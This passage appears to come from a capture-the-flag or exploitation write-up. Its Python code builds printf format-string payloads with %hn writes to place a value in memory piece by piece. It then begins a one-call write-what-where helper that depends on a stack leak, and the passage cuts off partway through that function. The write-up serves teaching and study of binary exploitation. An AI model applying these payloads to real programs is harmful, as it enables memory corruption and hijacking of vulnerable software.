 Again this can be done programmatically in python:

```python
#get the 3 parts of our value
first = (value >> 0x00) & 0xffff
second = (value >> 0x10) & 0xffff
third = (value >> 0x20) & 0xffff

#sort from smallest to largest
parts = [first, second, third]
parts.sort()

#calculate the differences
f2s = parts[1] - parts[0]
s2t = parts[2] - parts[1]

#calculate what will be put in the format string
value1 = parts[0]
index1 = 27 + parts.index(first)

value2 = f2s
index2 = 27 + parts.index(second)

value3 = s2t
index3 = 27 + parts.index(third)

#execute the write
sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")
```

Now we can make a write-what-where using only one `printf` call:

```python
def one_call_write(what, where):
#we will use stack indexes 15-17 to write our 3 addresses for the printf call
    stack_15 = stack_leak - 0x120

#write the 3 addresses at indexes 15-17 using the write function we defined earlier
    write(where, stack_15)
    write(where + 2, stack_15+8)
    write(where + 4, stack_15+16)
    
#now that we have our 3 addresses on the stack, we construct the final write:

#get the 3 parts of our value
    first = (what >> 0x00) & 0xffff
    second = (what >> 0x10) & 0xffff
    third = (what >> 0x20) & 0xffff

#sort from smallest to largest
    parts = [first, second, third]
    parts.sort()

#calculate the differences
    f2s = parts[1] - parts[0]
    s2t = parts[2] - parts[1]

#calculate what will be put in the format string
    value1 = parts[0]
    index1 = 27 + parts.index(first)

    value2 = f2s
    index2 = 27 + parts.index(second)

    value3 = s2t
```
